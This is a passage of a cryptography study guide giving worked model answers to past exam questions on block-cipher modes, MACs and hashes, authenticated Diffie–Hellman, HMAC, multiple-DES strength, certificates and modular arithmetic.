| Reuse consequence | No IV; repeated blocks always visible | Reused IV exposes equal starting plaintext blocks up to divergence | Repeated keystream gives C XOR C′ = P XOR P′ |

CBC encryption depends on the preceding ciphertext, so it cannot parallelize across a message. Its decryption uses only received ciphertext blocks, so D calls can run simultaneously. CTR keystream blocks are independent computations; encryption and decryption use E, not D.

For CBC, the IV should be unpredictable at encryption time in the usual chosen-plaintext model; merely incrementing a public IV is not a general substitute. For CTR, uniqueness is the central requirement, so a correctly managed deterministic nonce/counter allocation can work. In both cases authenticate transmitted parameters and ciphertext to stop active modification.

<a id="a035"></a>
### A035 · 2022–23 · Q5(b)

**Analyze encryption plus hash, plaintext MAC, or ciphertext MAC · 12 marks**

Original: [past-paper PDF p. 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024.

**Topics:** MAC/HMAC and authenticated data; Hash properties, collisions and birthday security.

> **Question summary:** Alice sends (1) Enc(K,m) with Hash(ciphertext), (2) Enc(K,m) with MAC(K,m), or (3) Enc(K,m) with MAC(K,ciphertext). Assume no harmful interactions from the shared key. For each, evaluate confidentiality against passive Eve and integrity against modifying MITM Mallory.

**Coverage:** related application/extension. MAC/hash/encryption are taught; formal composition security is supplementary.

**Exam tip.** Distinguish a keyed MAC from an unkeyed hash and tamper detection from freshness. State the paper’s special same-key assumption before applying generic composition reasoning.

Assume Enc is a secure randomized encryption scheme, MAC is unforgeable, message encodings are unambiguous, and—as expressly granted in this question—using K in both primitives creates no cross-protocol interaction.

| Scheme sent | Confidentiality against Eve | Integrity against Mallory |
|---|---|---|
| 1. C1=Enc(K,m), C2=Hash(C1) | Yes, if Enc is secure; the hash is publicly computable from already visible C1 | No: replace C1 with altered ciphertext and recompute its hash |
| 2. C1=Enc(K,m), C2=MAC(K,m) | Not guaranteed generically; the deterministic plaintext tag leaks equality across transmissions | Yes for fresh message forgery, if Bob decrypts and verifies the tag on the recovered m |
| 3. C1=Enc(K,m), C2=MAC(K,C1) | Yes under the granted composition assumptions | Yes for ciphertext forgery; verify before decryption |

**Why scheme 2 needs a careful answer.** A keyed HMAC is not a public plaintext hash, so Eve cannot necessarily hash candidate passwords herself without K. Nevertheless, the MAC is deterministic: repeated m gives repeated tags even when the randomized ciphertext changes. This defeats general indistinguishability across messages/oracle access. Thus the scheme does not inherit a general confidentiality guarantee from encryption alone. It may hide a single unpredictable message in a weaker, restricted setting; do not confuse that with IND-CPA.

Schemes 2 and 3 do not automatically reject a previously valid packet replay. Add authenticated freshness and receiver state if integrity includes replay resistance. In practical design use independent derived keys even though this paper temporarily assumes shared-key interactions away.

<a id="a037"></a>
### A037 · 2022–23 · Q6(a)

**Authenticate Diffie–Hellman with RSA signatures · 15 marks**

Original: [past-paper PDF p. 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024.

**Topics:** Diffie–Hellman calculations and authentication; Digital signatures and signing-key security.

> **Question summary:** Explain Diffie–Hellman and its MITM security flaw with figures. Modify the algorithm using RSA digital signatures to remove that flaw.

**Exam tip.** The essential extra assumption is authentic signing keys. Signing just a bare share without peer/role/freshness context leaves avoidable replay and identity-binding problems.

**Unauthenticated exchange.** Alice publishes A=$g^{a}$; Bob publishes B=$g^{b}$; each obtains $g^{ab}$. A passive observer sees g,p,A,B but, under the relevant DH assumption, cannot recover the secret. An active Mallory replaces A/B, establishes independent keys with each party, and relays traffic.


**RSA-signature repair.** Before this protocol, Alice and Bob must possess authentic RSA verification keys for one another, obtained through certificates, pinning or an authenticated fingerprint comparison. Then:

```text
1. A → B: Alice, Bob, nonceA, A=g^a
2. B → A: nonceB, B=g^b,
          Sig_B("DH/server" || Alice || Bob || nonceA || nonceB || A || B)
3. A → B: Sig_A("DH/client" || Alice || Bob || nonceA || nonceB || A || B)
```

Each verifies the signature using the corresponding authenticated public key and checks identities, shares and freshness. In lecture notation $\operatorname{Sig}_X(T)=H(T)^{d_X}\bmod N_X$, verified by raising to eX. Derive a session key from $g^{ab}$ and the transcript using a KDF; optional key-confirmation MACs prove both endpoints obtained it.

Mallory cannot change a share or identity without invalidating a signature. Replaying a signature on an old share fails the nonce/transcript checks. If signatures are verified against untrusted keys attached by Mallory, the fix fails for exactly the same reason as unauthenticated DH.

<a id="a040"></a>
### A040 · 2022–23 · Q8(a)

**Integrity tags in a file header; hash versus MAC; writable versus read-only storage · 15 marks**

Original: [past-paper PDF p. 14](../../CSE405-Security_Merged.pdf#page=14). Sitting date: 18 April 2024.

**Topics:** MAC/HMAC and authenticated data; Hash properties, collisions and birthday security.

> **Question summary:** A file’s integrity tag is stored in its header and checked when opened. An attacker must not modify the file undetected. Compare (i) an unkeyed collision-resistant hash, (ii) a MAC under the owner’s secret key and (iii) the MAC scheme when the tag is in read-only memory. Decide whether each system is secure.

**Exam tip.** Explain the attacker’s action on both content and tag. “Hashes detect tampering” is incomplete without saying where the expected hash is trusted.

Assume the attacker may alter writable file contents and header fields, but not the user’s secret key k. Treat F as the protected **content excluding its stored tag field**; otherwise hashing a file containing its own tag is underspecified.

**(i) Writable file plus unkeyed hash: insecure.** Replace F by any F′ and replace its header value by H(F′). No collision is needed. Collision resistance only prevents finding matching outputs when the trusted comparison digest cannot itself be changed.

**(ii) Writable file plus MAC: secure against fresh content substitution under the stated model.** Store T=MAC(k,F), then on open verify T against F. The attacker cannot change F to a new F′ and produce the corresponding tag without forging the MAC. Include file identity and relevant metadata in the authenticated encoding to avoid cross-file substitution.

**(iii) MAC tag in read-only memory: secure for detecting a changed content version**, assuming the key remains protected and a valid fixed tag uniquely binds the intended file content except with negligible probability. The attacker cannot replace the tag or forge a different matching message. A securely fixed unkeyed digest could also detect changes under an appropriate second-preimage assumption; the important additional property is a trusted comparison value.

**Freshness caveat.** With the tag writable in (ii), an attacker who saved an old valid (F,T) pair can restore both. A MAC alone does not detect rollback. Read-only storage fixes an intended version but complicates authorized updates. If freshness is required, authenticate a version counter whose current value is independently trusted.

<a id="a045"></a>
### A045 · 2021–22 · Q1(d)

**Caesar as symmetric encryption; composition of affine ciphers · 10 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** Symmetric/public-key models and Caesar as symmetric encryption.

> **Question summary:** Why is Caesar a symmetric encryption algorithm? If you encrypt using one affine cipher and then a second affine cipher, both modulo 26, is there any advantage over one affine cipher? Derive the result.

**Coverage:** related application/extension. Caesar/symmetric encryption are explicit; the affine-composition half is supplementary.

**Exam tip.** Show the equivalent multiplier/offset and its invertibility. “Two encryptions must be stronger” fails when the cipher family is closed under composition.

Caesar uses a shared secret shift k: $E_k(x)=x+k\pmod{26}$ and $D_k(y)=y-k\pmod{26}$. Both parties use the same key information; knowing k gives its inverse operation. It is therefore symmetric encryption, although its tiny key space makes it insecure.

For affine ciphers:

$$
\begin{aligned}E_1(x)&=a_1x+b_1\pmod{26},\\E_2(y)&=a_2y+b_2\pmod{26},\\E_2(E_1(x))&=(a_2a_1)x+(a_2b_1+b_2)\pmod{26}.\end{aligned}
$$

Define $a=a_2a_1\pmod{26}$, $b=a_2b_1+b_2\pmod{26}$. Since both multipliers are units modulo 26, a is also a unit. The composition is another ordinary affine cipher, with no enlarged family of transformations and no gain over selecting one affine key directly.

For example, E1(x)=5x+8 and E2(y)=7y+3 compose to $35x+59\equiv9x+7\pmod{26}$. An attacker can recover the equivalent key instead of either original pair. There are only φ(26)·26=12·26=312 affine transformations.

<a id="a047"></a>
### A047 · 2021–22 · Q2(c)

**Numerical Diffie–Hellman exchange · 10 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** Diffie–Hellman calculations and authentication.

> **Question summary:** Explain Diffie–Hellman. Given p=353, primitive root g=3, and private exponents 97 and 233, calculate both public keys and the shared secret.

**Exam tip.** Label A/B as public values, not private exponents. Authenticate contributions to prevent MITM; real protocols feed the shared secret into a KDF rather than using its raw integer encoding directly as an AES key.

DH lets two parties combine private randomness with exchanged public values to agree on a common secret over a public channel. Assuming suitable parameters and hardness, a passive observer cannot efficiently derive the same secret.

With p=353, g=3, a=97, b=233:

$$
\begin{aligned}A&=3^{97}\bmod353=40,\\B&=3^{233}\bmod353=248,\\K&=B^{97}\bmod353=A^{233}\bmod353=160.\end{aligned}
$$

Compute using repeated squaring:

| Exponent e | 1 | 2 | 4 | 8 | 16 | 32 | 64 | 128 |
|---|---:|---:|---:|---:|---:|---:|---:|---:|
| $3^{e}$ mod 353 | 3 | 9 | 81 | 207 | 136 | 140 | 185 | 337 |

97=64+32+1 gives $185\cdot140\cdot3\bmod353=40$. 233=128+64+32+8+1 gives $337\cdot185\cdot140\cdot207\cdot3\bmod353=248$.

For the shared-secret computation, powers of 248 at exponents 1,2,4,8,16,32,64 are `248,82,17,289,213,185,337`; hence $337\cdot185\cdot248\bmod353=160$ for exponent 97.

<a id="a048"></a>
### A048 · 2021–22 · Q2(d)

**Identify ECB-style long-message weakness and replace the mode · 10 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** Block-cipher modes, CBC and ciphertext manipulation.

> **Question summary:** A cryptanalyst says the system is secure for short messages but vulnerable for long messages because of its mode of operation. Identify and describe the mode and explain how to overcome the problem.

**Exam tip.** Name the flaw, give its equation, and state the IV/nonce conditions of the replacement.

**The intended mode is ECB.** It splits a long message into independent fixed-size blocks and encrypts each with the same key: Ci=E_K(Pi). Equal plaintext blocks produce equal ciphertext blocks, exposing repetition and structure. A long image or structured document makes these repetitions conspicuous.

Replace ECB with an appropriate randomized/nonce-based mode such as CBC with an unpredictable IV or CTR with unique nonce/counter inputs under the key. Use an authenticated construction as well, since confidentiality-only modes permit active modification.

$$
\begin{aligned}\mathrm{ECB}:\quad P_i=P_j&\implies C_i=C_j,\\\mathrm{CBC}:\quad C_i&=E_K(P_i\oplus C_{i-1}),\\\mathrm{CTR}:\quad C_i&=P_i\oplus E_K(N\parallel i).\end{aligned}
$$

**Qualification.** “Secure for short messages” is informal, not a formal ECB guarantee. Even one-block deterministic encryption fails an IND-CPA test when an attacker can ask for encryptions. The long-message clue points to visible pattern leakage, not a proof that short ECB is secure.

<a id="a050"></a>
### A050 · 2021–22 · Q3(b)

**Applications of hashing in authentication, confidentiality and signatures · 10 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** Hash properties, collisions and birthday security; MAC/HMAC and authenticated data; Digital signatures and signing-key security.

> **Question summary:** Demonstrate uses of a hash function for authentication, confidentiality and digital signatures.

**Coverage:** related application/extension. The decks cover hashing, MACs and hash-then-sign; a bare hash does not provide confidentiality. Explain a suitable construction rather than attributing encryption properties to hashing.

**Exam tip.** For each use state the secret/trusted input, the construction and the property obtained. Preimage resistance is not a substitute for an encryption scheme.

Hashing is a building block; a public bare hash is neither encryption nor source authentication.

**Authentication/integrity.** With a shared key, compute a proper keyed MAC such as $T=\operatorname{HMAC}_K(M)$ and verify it before accepting M. For password authentication, store a salted slow password hash and verify a submitted password against it; this is a different application from authenticating messages.

**Confidentiality as part of a construction.** A hash-based KDF can derive an encryption key from a sufficiently secret shared value. For example, derive Kenc using HKDF, then encrypt the message using an appropriate authenticated-encryption scheme. The KDF uses hashing/HMAC to process key material; **the encryption algorithm provides message confidentiality**. A suitable PRF/HMAC can also underpin a carefully designed keystream generator. Avoid claiming that sending H(M) is reversible confidential communication.

```text
secret shared material → hash-based KDF → encryption key
message + encryption key → secure encryption → ciphertext
```

HKDF’s extract/expand interface is specified in [RFC 5869](https://www.rfc-editor.org/rfc/rfc5869).

**Digital signatures.** Compute h=H(M), sign a properly encoded digest with a private signing key, and verify using the authentic public key. Hashing supports arbitrary-length input, efficient signing and a fixed representative; collision resistance prevents swapping a signed message for another with the same digest.

**Trusted checksums.** A securely published digest can detect changes to a downloaded file. If an attacker can replace both file and expected digest, the checksum alone does not authenticate it.

<a id="a051"></a>
### A051 · 2021–22 · Q3(c)

**Evaluate XOR of fixed-size message blocks as a hash · 10 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** Hash properties, collisions and birthday security.

> **Question summary:** Explain the desired properties of a cryptographic hash. A message consists of l blocks M1,…,Ml of 160 bits and h(x)=M1 XOR … XOR Ml. Evaluate this function against those properties.

**Exam tip.** A concrete collision is stronger than merely saying “XOR is weak.” Specify distinct inputs and show the identical output.

Desired hash properties include efficient deterministic evaluation, a fixed-length output, preimage resistance, second-preimage resistance and collision resistance. Small input changes should not leave exploitable output structure.

For $h(M)=M_1\oplus\cdots\oplus M_\ell$, output is 160 bits and evaluation is fast, but security fails:

**Preimage:** given any y, a one-block message y hashes to y. If length l is fixed above one, choose arbitrary first l−1 blocks and set the last block to y XOR their XOR.

**Second preimage:** for l≥2 choose any nonzero block delta and replace M1/M2 by `M1 XOR delta`, `M2 XOR delta`. The deltas cancel, leaving the hash unchanged while the message changes.

**Collision:** the two-block messages `(0,0)` and `(delta,delta)` both hash to zero. Reordering two different blocks also leaves the hash unchanged.

**Weak diffusion/linearity:** flipping a bit in one block flips exactly that output bit; flipping the same bit in another block cancels the change. Appending a zero block does not affect the hash if lengths are unrestricted.

**Conclusion:** it is a linear checksum, not a cryptographic hash. If the domain were restricted to one block only, h would be the identity and would still fail preimage security; explain the domain rather than overclaiming the two-block attack there.

<a id="a052"></a>
### A052 · 2021–22 · Q3(d)

**Symmetric/public-key comparison; key roles in signing versus encryption · 10 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** Symmetric/public-key models and Caesar as symmetric encryption; Digital signatures and signing-key security.

> **Question summary:** Compare symmetric and public-key cryptography. Explain how the roles of public and private keys in signatures differ from their roles in public-key encryption.

**Exam tip.** Say **whose** key is used: recipient’s public key for encryption; sender’s private key for signing. Public-key distribution still needs trust.

| Feature | Symmetric cryptography | Public-key cryptography |
|---|---|---|
| Keys | Shared secret | Public/private key pair |
| Encryption access | Secret holders | Anyone with recipient’s public key |
| Decryption | Shared secret holder | Recipient’s private key |
| Typical cost | Efficient bulk encryption | Costlier mathematical operations |
| Main distribution problem | Establish shared secret safely | Authenticate the public key’s owner |
| Examples | AES-based encryption, HMAC | RSA/ElGamal encryption, signatures |

**Key roles reverse by purpose, not by simply relabeling an API.** For encryption to Bob, anyone uses PKB and only Bob uses SKB to decrypt: the goal is confidentiality. For Alice’s signature, only Alice uses SKA to sign and anyone uses PKA to verify: the goals are integrity, authenticity and, with appropriate identity/key assumptions, non-repudiation.

A MAC is also symmetric but does not encrypt. A signature is not a secret message “encrypted with a private key”; it uses a dedicated secure signing algorithm/encoding. The algebraic analogy is especially visible for textbook RSA, but is not a definition for all signature schemes.

<a id="a054"></a>
### A054 · 2021–22 · Q4(b)

**HMAC construction · 10 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** MAC/HMAC and authenticated data.

> **Question summary:** Describe how a message authentication code is created by HMAC.

**Coverage:** related application/extension. MAC is explicit; the detailed HMAC construction is supplementary.

**Exam tip.** Show both nested hashes and both pads. HMAC does not encrypt M and does not by itself reject replayed message/tag pairs.

Let H have compression-input block length B bytes. Normalize K to B bytes: if |K|>B, replace K by H(K); then append zero bytes until its length is B. Call the result K0. Define ipad as B repetitions of 0x36 and opad as B repetitions of 0x5c.

$$
\begin{aligned}h_{\mathrm{inner}}&=H\!\left((K_0\oplus\mathrm{ipad})\parallel M\right),\\T&=H\!\left((K_0\oplus\mathrm{opad})\parallel h_{\mathrm{inner}}\right).\end{aligned}
$$

The receiver recomputes T with the shared secret and compares tags using a constant-time comparison. Changing M without knowing K should not produce a valid new tag. The outer hash hides the inner chaining result, so ordinary secret-prefix length extension does not directly create a valid HMAC on an extended message.

**Important correction:** normalize to the hash’s **block length**, not its output length. For HMAC-SHA-256 these are 64 bytes and 32 bytes respectively. This distinction is defined in [RFC 2104, section 2](https://www.rfc-editor.org/rfc/rfc2104).


<a id="a055"></a>
### A055 · 2021–22 · Q4(c)

**DES attack; meet-in-the-middle strength of fivefold DES · 10 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** DES/AES internals, P/S boxes and multiple-DES strength.

> **Question summary:** Explain an attack on DES. A proposed 5DES alternates five DES encryptions/decryptions using independent keys and claims 280-bit strength, exceeding AES-256. Compute the effective key strength and assess the claim.

**Coverage:** related application/extension. DES/3DES are explicit; 5DES meet-in-the-middle analysis is supplementary.

**Exam tip.** Split by layers and invert the right half in reverse order. Do not divide 280 by two mechanically: the five-layer split is unbalanced (112 versus 168).

**DES weakness.** DES has only 56 effective key bits. Exhaustive key search uses a known plaintext/ciphertext pair to try keys, costing roughly $2^{56}$ operations in the worst case or half on average. Differential/linear cryptanalysis are additional analytical approaches, but the short-key brute-force weakness alone answers the first part.

**Fivefold DES.** The construction is an alternating cascade:

$$
C=E_{k_5}\!\left(D_{k_4}\!\left(E_{k_3}\!\left(D_{k_2}\!\left(E_{k_1}(P)\right)\right)\right)\right).
$$

Five independent keys contain 280 nominal key bits, but a meet-in-the-middle split gives a lower attack cost. Split after the first two layers:

$$
\begin{aligned}L(k_1,k_2)&=D_{k_2}(E_{k_1}(P)),\\R(k_3,k_4,k_5)&=D_{k_3}(E_{k_4}(D_{k_5}(C))).\end{aligned}
$$

The correct keys make L=R. Store L for all $2^{112}$ key pairs. Enumerate the $2^{168}$ triples on the right and look for table matches. Use **several known plaintext/ciphertext pairs** to eliminate accidental matches; do not treat one 64-bit match as proof of a 280-bit key tuple.

With t pairs, store a vector of t intermediate blocks. The expected number of false matches across the whole key space is about $2^{280-64t}$; five independent pairs make this small. The straightforward attack costs order $2^{168}$ DES work, up to fixed factors, and order $2^{112}$ table entries. Its conventional effective-strength **upper bound is about 168 bits**, not 280. This suffices to refute superiority to an ideal AES-256 on key-search strength. It is an attack upper bound, not a proof that no better attack exists.

The 64-bit block size also remains unchanged, bringing block-collision/security-limit concerns that extra keys do not remove.

<a id="a056"></a>
### A056 · 2021–22 · Q4(d)

**Compare DES components with AES · 10 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** DES/AES internals, P/S boxes and multiple-DES strength.

> **Question summary:** For each DES component, identify its AES counterpart or explain why none is needed: (i) XOR of subkey with the f-function input, (ii) XOR of f output with the left half, (iii) f itself, (iv) permutation P, (v) swapping block halves.

**Coverage:** related application/extension. AES round operations appear in Lecture 3; detailed DES round structure is not supplied.

**Exam tip.** A purpose-based comparison with a clear “no exact counterpart” is more accurate than assigning every DES operation to a different AES name.

DES is a Feistel network while AES transforms the entire state using an invertible substitution–permutation structure. Therefore several comparisons are by **purpose**, not identical wiring.

| DES element | Closest AES relationship |
|---|---|
| (i) XOR subkey into the f-function input | AddRoundKey mixes round-key bytes into the AES state by XOR |
| (ii) XOR f output with the left half | No exact counterpart: this is Feistel’s invertibility mechanism; AES uses individually invertible whole-state operations |
| (iii) f function | Nonlinearity from SubBytes plus diffusion through ShiftRows/MixColumns, with key mixing elsewhere; no single exact equivalent |
| (iv) permutation P | ShiftRows and MixColumns perform the spreading/mixing role; AES also has byte substitutions |
| (v) swap block halves | No needed counterpart: AES has no alternating left/right Feistel halves |

DES’s f need not be invertible because Feistel structure recovers the previous halves. AES instead requires that SubBytes, ShiftRows, MixColumns and key XOR can be inverted. This explains the absence of both the Feistel XOR and half swap.

<a id="a065"></a>
### A065 · 2021–22 · Q7(c)

**Self-signed SSL certificate and server authentication · 11 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** Certificates, CA trust and key binding.

> **Question summary:** Why is buying from a shopping website that uses a self-signed SSL certificate a bad idea?

**Exam tip.** Explain the missing identity binding. Do not write “self-signed means no encryption” or “every CA-issued certificate is automatically trustworthy without validation.”

A self-signed certificate’s signature can show that its presenter possesses the corresponding private key. By itself, it does **not** establish that the key belongs to the shopping site named in the address. An attacker can generate their own self-signed certificate and intercept a connection if the user simply accepts any warning.

A normally validated certificate chain connects the server key/name to a pre-trusted root, with hostname, validity and other checks. This supplies authentication in addition to encryption. Encrypted communication to an unauthenticated attacker is still unsafe for payment information.

**Qualification:** self-signed certificates can be safe when the exact certificate/key is authenticated by another trusted method—such as deliberate pinning in a private system. The problem is an unknown public shopping site with no independent trust path, not a mathematical inability of a self-signed key to support encryption.

<a id="a081"></a>
### A081 · 2020–21 · Q5(a)

**Authenticate UDP messages with a cookie/token; prevent replay · 15 marks**

Original: [past-paper PDF p. 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022.

**Topics:** MAC/HMAC and authenticated data.

> **Question summary:** Bob uses UDP for a streaming service because confidentiality is unnecessary and he cannot use TLS/HTTPS. He needs integrity so attackers cannot impersonate the sender or alter or replay messages. Explain how to achieve this using cookies.

**Coverage:** related application/extension. MACs and message integrity are explicit; a complete authenticated UDP protocol with replay tracking extends the decks.

**Exam tip.** Raw UDP does not automatically carry HTTP cookies. Treat the cookie as an application token field, state how secret keys are established, and explicitly include replay protection. Sending a fresh MAC key in cleartext defeats the design even if the application content need not be confidential.

**A visible bearer cookie alone is insufficient.** If an observer can copy a token that is accepted as the only credential, they can replay it or impersonate its holder. Likewise, using the public cookie value itself as an HMAC key lets the observer forge tags. The goal permits cleartext content, not exposure of the authentication secret.

**One complete construction: authenticated session establishment plus MACed datagrams.** Assume the client and service establish a secret session key K by an authenticated exchange—for example, signed ephemeral DH with a pre-trusted server verification key, or a pre-shared secret. This is possible without running TLS, but cannot dispense with all initial trust. Derive separate directional keys Kcs/Ksc using a KDF. The server gives the client a session identifier/cookie sid and expiry, binding sid to the session and identity.

For a client→server message:

```text
packet = (sid, direction, seq, payload, tag)
tag = HMAC(Kcs, encode(sid,direction,seq,payload))
```

The server looks up the appropriate secret key from sid, validates the tag, checks expiry, then rejects any seq already accepted. Use a replay bitmap/window if UDP reordering must be tolerated. Reverse direction uses Ksc and its own sequence-number space. Record the accepted counter atomically after successful verification.

- **Impersonation:** an observer can copy sid but cannot compute new valid tags without the secret key.
- **Alteration:** payload and associated fields are MAC-covered, so modification invalidates the tag.
- **Replay:** an old valid packet is rejected by the tracked sequence number; a MAC alone would accept it again.
- **Confidentiality:** payload can remain unencrypted, as permitted by the question.

A signed/self-authenticating cookie can reduce server state for the cookie’s integrity, but replay detection still needs state or a carefully specified freshness mechanism. If no shared secret is possible, digital signatures on datagrams plus an authentic verification key and sequence checking are another authentication approach.

<a id="a088"></a>
### A088 · 2020–21 · Q8(b)

**Birthday bound for a b-bit hash · 10 marks**

Original: [past-paper PDF p. 21](../../CSE405-Security_Merged.pdf#page=21). Sitting date: 25 September 2022.

**Topics:** Hash properties, collisions and birthday security.

> **Question summary:** Prove that a b-bit hash function provides b/2-bit security.

**Exam tip.** Name the attack goal. It is incorrect to say all attacks on a b-bit hash cost only $2^{b/2}$.

**The b/2 bound concerns collision finding**, not preimage finding. An ideal b-bit hash has N=$2^{b}$ possible outputs. After q independent random outputs, the probability of no collision is:

$$
\begin{aligned}\Pr[\text{no collision}]&=\prod_{i=0}^{q-1}\left(1-\frac{i}{N}\right)\\&\approx\exp\!\left(-\frac{q(q-1)}{2N}\right),\\\Pr[\text{collision}]&\approx1-\exp\!\left(-\frac{q(q-1)}{2N}\right).\end{aligned}
$$

For a constant collision probability, the exponent must be of order 1, so $q^{2}$/N is of order 1:

$$
q=\Theta(\sqrt N)=\Theta(2^{b/2}).
$$

At 50% probability, solve q(q−1)/(2N)≈ln 2, giving $q\approx\sqrt{2\ln2}\,2^{b/2}\approx1.177\,2^{b/2}$. Therefore a generic collision attack takes about $2^{b/2}$ work, giving b/2 bits of collision security. SHA-256’s ideal generic collision target is approximately 128-bit work, while an ideal specified-output preimage target is approximately 256-bit work.

<a id="a089"></a>
### A089 · 2019–20 · Q1(a)

**Digital signatures and non-repudiation · 12 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Digital signatures and signing-key security.

> **Question summary:** Explain, with a figure, how digital signatures ensure non-repudiation.

**Exam tip.** Explain why verification is transferable evidence and contrast it with a shared-key MAC. Include the authentic public-key assumption.

Alice signs a message using a private signing key known only to her. A verifier uses her **authentic public key**, so unlike a MAC the verifier does not need a shared signing secret and cannot create the same kind of signature merely because they can verify it.

```text
Alice:      h=H(M); s=Sign(SKA, context || M)
Send:       (M,s, Alice's certificate if needed)
Verifier:   validate identity/key binding; Verify(PKA,context||M,s)
```


If the signature is valid, the key is correctly bound to Alice, the algorithm is unforgeable and the private key has remained under Alice’s control, a third party has evidence that the holder of Alice’s signing key endorsed the exact signed content. Alice cannot plausibly claim that Bob generated the signature merely because Bob knew how to verify it.

Hashing binds the signature to arbitrary-length content; signing an encoded context helps avoid interpreting the same signature as authorization for another purpose. Certificates, timestamps, key-protection records and revocation status can matter in a real dispute.

**Limit.** A signature proves a cryptographic relationship to a key, not by itself the human’s intent or absence of key theft. Non-repudiation relies on identity and operational assumptions in addition to the equation. A MAC lacks the same third-party attribution because both participants can generate it.

<a id="a104"></a>
### A104 · 2019–20 · Q6(b)

**Weak/strong collision resistance; toy hash; Merkle–Damgård · 21 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Hash properties, collisions and birthday security.

> **Question summary:** State ideal hash properties and distinguish weak and strong collision resistance. Show H(x)=(5x+11) mod 19 is not weakly collision resistant for H(4). Draw Merkle–Damgård and explain why its compression function needs strong collision resistance.

**Coverage:** related application/extension. Hash properties are explicit; detailed Merkle–Damgård is supplementary.

**Exam tip.** Give the specific second preimage 23 and distinguish the attacker’s freedom in weak versus strong collision games. Include padding and the fixed IV in the diagram.

**Ideal-hash properties.** Efficient deterministic evaluation, fixed output size, preimage resistance, second-preimage resistance and collision resistance. Hash outputs should not expose useful algebraic structure.

- **Weak collision resistance / second-preimage resistance:** given x, hard to find x′≠x with H(x′)=H(x).
- **Strong collision resistance:** hard to find any distinct pair x,x′ with equal hashes, both chosen by the attacker.

For the supplied toy hash over unrestricted integers:

$$
\begin{aligned}H(4)&=(5\cdot4+11)\bmod19=12,\\H(23)&=(5\cdot23+11)\bmod19=12.\end{aligned}
$$

Since 23≠4, this is a direct second preimage. More generally H(x+19t)=H(x). If the domain were restricted to 0,…,18, multiplication by 5 is invertible and this particular collision would not be in-domain; the question’s conclusion assumes the unrestricted/longer input domain.

**Merkle–Damgård construction.** Pad the message with an unambiguous length-encoding scheme, split it into fixed-size blocks m1,…,mt, set h0 to a fixed public IV, and iterate:

$$
h_i=f(h_{i-1},m_i),\qquad H(M)=h_t.
$$


Why does compression collision resistance matter? If two distinct inputs to f produce the same chaining state, subsequent identical suffix blocks produce identical final hashes. Under the construction’s proper length strengthening and conditions, a collision in the iterated hash can be traced back to a collision in the compression function. Thus weak compression security undermines the composed hash. This is a collision-resistance statement, not protection against every misuse such as naive secret-prefix length extension.

<a id="a105"></a>
### A105 · 2019–20 · Q7(a)

**Euler totient/theorem; modular inverse · 8 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Modular arithmetic, Fermat, Euler and inverses.

> **Question summary:** Define Euler’s totient function and Euler’s theorem, and explain computing a modular inverse using Euler’s theorem.

**Exam tip.** State the coprimality condition with the theorem. Computing φ(n) may require factorization; Euler’s expression is mathematically illuminating but not always the most efficient inverse algorithm.

Euler’s totient φ(n) counts integers from 1 through n that are coprime to n. For prime p, φ(p)=p−1; for distinct primes p,q, φ(pq)=(p−1)(q−1).

**Euler’s theorem:** if gcd(a,n)=1, then $a^{\varphi(n)}\equiv1\pmod n$. Splitting off one factor gives:

$$
\begin{aligned}a\cdot a^{\varphi(n)-1}&\equiv1\pmod n,\\a^{-1}&\equiv a^{\varphi(n)-1}\pmod n.\end{aligned}
$$

Example: n=10, a=3 and φ(10)=4. Then inverse $3^3=27\equiv7\pmod{10}$, and 3·7≡1. For an RSA-related example φ(160)=64, so $7^{63}\bmod160=23$, since 7·23=161≡1.

If gcd(a,n)≠1, the inverse does not exist, so the formula must not be applied. In practice extended Euclid finds an inverse without needing φ(n): find x,y with ax+ny=1; then x is the inverse modulo n.

<a id="a106"></a>
### A106 · 2019–20 · Q7(b)

**Modular equations and fast exponentiation · 12 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Modular arithmetic, Fermat, Euler and inverses.

> **Question summary:** Solve (i) x^8 ≡ 9 (mod 13), (ii) x² ≡ 2 (mod 13), and compute 3^128 mod 7. A modular-exponentiation table modulo 13 is supplied.

**Coverage:** related application/extension. These number-theory exercises support RSA/DH. The current slides do not develop modular-root solving; the CT4 guide pp. 20–21 works this question.

**Exam tip.** Solve for residue classes, not merely ordinary integer roots. “Take an eighth root” is not a valid modular solution method without more group reasoning.

**(i) $x^{8}$≡9 mod 13.** Check residues x=1,…,12 by repeated squaring; x=0 plainly fails:

| x | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 |
|---|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|
| $x^{2}$ mod 13 | 1 | 4 | 9 | 3 | 12 | 10 | 10 | 12 | 3 | 9 | 4 | 1 |
| $x^{4}$ mod 13 | 1 | 3 | 3 | 9 | 1 | 9 | 9 | 1 | 9 | 3 | 3 | 1 |
